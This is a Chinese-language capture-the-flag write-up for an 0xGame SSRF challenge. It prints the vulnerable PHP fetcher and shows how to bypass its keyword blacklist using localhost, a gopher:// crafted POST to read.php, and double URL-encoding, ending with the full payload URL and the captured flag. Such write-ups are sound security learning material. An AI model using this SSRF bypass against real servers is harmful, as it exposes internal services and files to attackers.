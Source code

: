 # SSRF_Me

0xgame.h4ck.fun

## 题目页面

http://106.15.250.209:6655/

```php
<?php 
error_reporting(0);
highlight_file(__FILE__);
$url=$_GET['url'];
if(preg_match('/127.0.0.1|flag|dict|file|ftp/i',$url)){
  die('想都别想');
}//read.php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
echo $output;
curl_close($ch);
```

## 题解

利用 ssrf 漏洞

### 1.

首先观察 php 文件，发现可传入的变量 `$url` ，使用 get 方式传入

由于 if 语句对 url 进行了关键字过滤，无法直接查询 /flag 目录，也无法使用 dict, file, ftp 协议访问文件目录，考虑使用 **gopher** 协议

注意到 127.0.0.1 被过滤，改为使用 localhost 访问，关于 `preg_match()` 过滤的绕过，[看这里](传参过滤绕过.md)

利用注释提示的 read.php ，首先尝试访问 http://106.15.250.209:6655/read.php ，发现无法从外部访问

使用 url 变量，构造请求尝试访问 http://106.15.250.209:6655/?url=localhost/read.php

### 2.

返回结果

```php+HTML
<?php
if('127.0.0.1'!=$_SERVER['REMOTE_ADDR']){
    die('Allow local only');
}
if('GET' === $_SERVER['REQUEST_METHOD']){
  highlight_file(__FILE__);
  die('Invalid request mode');
}

$filename=$_POST['name'];
if(preg_match('/..\//',$filename)){
    die('nonono');
}
echo file_get_contents(urldecode($filename));Invalid request mode
```

发现使用 url 变量直接访问的形式不对，需要使用 post 形式的请求

使用 gopher 协议构造本地访问请求的 post 报文

```php+HTML
POST /read.php HTTP/1.1
Host: localhost:80
content-type: application/x-www-form-urlencoded
Content-Length: 14

name=flag

```

注意使用多重 url 编码，同时对 flag 进行转码，防止在初次传入 url 时被过滤

| hex  | character |
| :--: | :-------: |
|  20  |   space   |
|  25  |     %     |
|  2F  |     /     |
|  3A  |     :     |

最终得到的地址

http://106.15.250.209:6655/?url=gopher%3A%2F%2Flocalhost%3A80%2F_POST%2520%2Fread.php%2520HTTP%2F1.1%250D%250AHost%253A%2520localhost%253A80%250D%250Acontent-type%253A%2520application%2Fx-www-form-urlencoded%250D%250AContent-Length%253A%252014%250D%250A%250D%250Aname%253D%25252F%252566lag%250D%250A

回显

```php+HTML
<?php 
error_reporting(0);
highlight_file(__FILE__);
$url=$_GET['url'];
if(preg_match('/127.0.0.1|flag|dict|file|ftp/i',$url)){
  die('想都别想');
}//read.php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
echo $output;
curl_close($ch);
HTTP/1.1 200 OK Server: nginx/1.16.1 Date: Thu, 21 Oct 2021 14:29:39 GMT Content-Type: text/html; charset=UTF-8 Transfer-Encoding: chunked Connection: keep-alive X-Powered-By: PHP/7.4.5 29 0xGame{G0pher_pr0toc01_ls_v3ry_p0werfu1} 0
```

解决

## Extra

ssrf相关资料

https://blog.csdn.net/weixin_52250313/article/details/119496835

https://zhuanlan.zhihu.com/p/112055947